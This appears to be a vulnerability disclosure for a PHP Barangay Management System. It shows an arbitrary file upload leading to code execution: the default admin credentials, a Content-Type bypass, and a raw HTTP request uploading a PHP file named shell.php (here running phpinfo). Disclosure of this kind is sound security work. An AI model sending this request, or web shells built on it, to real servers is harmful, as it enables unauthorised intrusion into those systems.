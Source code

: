 # Barangay Management System v1.0 by itsourcecode.com has arbitrary code execution (RCE)

**BUG_AUTHOR**: **whynot37**

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

Vulnerability url: ip/bmis/pages/activity/activity.php

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Loophole location: Background management system Activity module editing function-> "activity.php" file picture upload point exists arbitrary file upload vulnerability (RCE).

Click "Save" to save

Content-Type: image/png //Key points (Bypass detection by changing "Content Type" to "Content-Type: image/png")

Request package for file upload：

```sql
POST /bmis/pages/activity/activity.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/activity/activity.php
Cookie: PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------231533211823565
Content-Length: 625

-----------------------------231533211823565
Content-Disposition: form-data; name="txt_doc"

1
-----------------------------231533211823565
Content-Disposition: form-data; name="txt_act"

1
-----------------------------231533211823565
Content-Disposition: form-data; name="txt_desc"

1
-----------------------------231533211823565
Content-Disposition: form-data; name="files[]"; filename="shell.php"
Content-Type: image/png //Key points

JFJF
<?php phpinfo();?>
-----------------------------231533211823565
Content-Disposition: form-data; name="btn_add"

Add Activity
-----------------------------231533211823565--

```

The files will be uploaded to this directory \bmis\pages\activity\photo\
![image](https://user-images.githubusercontent.com/54017627/173300631-ca669f43-c047-404d-9e71-805109debf24.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/173300781-16024f4f-e01f-4126-90c1-22fbabae9a55.png)

